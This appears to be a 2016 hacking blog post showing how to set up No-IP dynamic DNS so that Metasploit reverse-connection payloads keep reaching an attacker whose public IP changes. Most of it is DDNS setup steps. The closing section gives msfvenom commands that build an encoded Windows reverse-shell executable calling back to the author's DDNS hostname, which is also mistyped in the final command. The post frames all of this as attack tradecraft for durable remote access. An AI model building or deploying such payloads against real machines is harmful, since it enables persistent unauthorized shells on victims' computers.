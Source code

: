 ```yaml
---
date: 'Sun Mar 06 2016 13:58:02 GMT+0530 (India Standard Time)'
title: Use DDNS to Deal With Your Dynamic Public IP
tags:
  - Hacking
  - DDNS
  - Metasploit
---
```


Many of us have an internet connection with a dynamic public IP. That poses some problems if you want to use that connection to host a website, or maybe for hackers like us, to hack using reverse connection payloads. I’m going to discuss in this post how you can overcome that using Dynamic DNS or DDNS. But I’m getting ahead of myself, so let me start by explaining what is public IP and what are some problems you can encounter if you have a dynamic one.


## Understanding Dynamic Public IP Address


Public IP is the IP that’s visible to machines outside your local network. For example, if two or more machines are connected through a router—maybe through Wi-Fi—to the internet, then the machines are in a local network, as well as both of them are connected to the Internet. Each of them has a locally unique private IP address, not globally. For connecting to the Internet they use the router’s public IP.

IP addresses can be static or dynamic. Most of the ISPs provide dynamic public IP, that means it changes from time to time, contrary to the static one, which remains fixed. You can check what’s your public IP by googling “What is my IP”, Google will tell you.

Having a dynamic IP address is a hindrance to hacking using reverse connection payloads. Reverse connection payloads, such as `android/meterpreter/reverse_tcp`, store the host IP address, i.e. the IP address of the attacker machine. When it gets executed, it connects back to the host machine by the reference of that host IP. But as dynamic IP keeps changing from time to time, you won’t be able to use a payload for a long time because after some time the IP stored inside it won’t point to your machine anymore. That’s a problem — a major one. This is where DDNS comes in.


## Dynamic DNS aka DDNS to The Rescue

We all know what DNS or Domain Naming System is, it’s the system which binds an IP to a domain name. When you try to connect to a domain name, for example opening www.google.com on a browser, the request first goes to a DNS server, which resolves the domain name into an IP, and then the browser gets the Google homepage from that IP. Similarly you can get a domain name for your machine and put that domain name in the place of HOST IP address in your payload. But the problem of your IP being dynamic still remains.

Here DDNS comes to the rescue. DDNS servers update the DNS record of your machine continuously, so that even for dynamic IP machines the domain name resolves to the correct IP, always.


## Setting up DDNS using No-IP

There are many DDNS providers, I'm going to use No-IP which is one of them.

### Step 1: Creating a No-IP account

Head to https://www.noip.com and create a free account there.

### Step 2: Adding a Hostname in No-IP

When you get to the dashboard, go to Dynamic DNS → Hostnames and add a hostname of your choice from there. You can also choose a domain name from a list there. The address you will get is `hostname.domain`. For example, I chose the default domain name—ddns.com—and the hostname I entered is _skulltech_. So the address I got is “skulltech.ddns.com”. Refer to the screenshots below for reference.

![step-1](/images/posts/ddns-dynamic-ip-step-11.png)
![step-2](/images/images/ddns-dynamic-ip-step-21.png)


### Step 3: Install the Dynamic DNS Update Client


Now you’ll need to install a program on your computer and set it up. So that it connects to No-IP server frequently and updates the DNS record. Download the update client from https://www.noip.com/download . It’s a tar.gz archive, extract it using the following command —
```console
$ tar -xzvf noip-duc-linux.tar.gz
```

![screenshot-from-2016-12-18-14-24-36](/images/posts/ddns-dynamic-ip-screenshot-from-2016-12-18-14-24-36.png)


After that change working directory to the newly extracted folder and run the following command to install the No-IP client.

```console
$ make install
```

![screenshot-from-2016-12-18-14-38-06](/images/posts/ddns-dynamic-ip-screenshot-from-2016-12-18-14-38-06.png)


After that the program will ask for your No-IP username and password.


### Step 4: Configure the Client and Run It


Run the following command to launch the configuration wizard of the No-IP client. It will ask you for your credentials, as well as which hostnames you want to update. Select the hostname—or hostnames—that you want to associate with this computer in that step.

```console
$ noip2 -C
```

When you are done with the configuration, just run `noip2` in the terminal to start the client, it will run in the background and keep updating your DNS record.

```console
$ noip2
```

![screenshot-from-2016-12-18-14-49-56](/images/posts/ddns-dynamic-ip-screenshot-from-2016-12-18-14-49-56.png)


## Using DDNS Hostname in Payloads


You can create a basic reverse shell payload for windows and get a shell on a remote computer on running it in that computer. Refer to this tutorial by Offensive Security for that, I won’t be going into details how to do that. Assuming that you already know how to create these payloads using _msfvenom_—if you don’t check out [this tutorial](/articles/embed-metasploit-payload-in-apk-easily/)—I'll show you how you can use your DDNS hostname there.

Generally we run a command like this to generate the payload. Here LHOST is the address of the our local machine, in the following example it’s _192.168.1.101_.

```console
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.101 LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Now that we have a DDNS hostname, pass that as LHOST to _msfvenom_ instead of your IP. So now the command will be —

```console
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=skulltech.ddn.com LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Feel free to leave a comment if you face any problem. Happy Hacking! :)
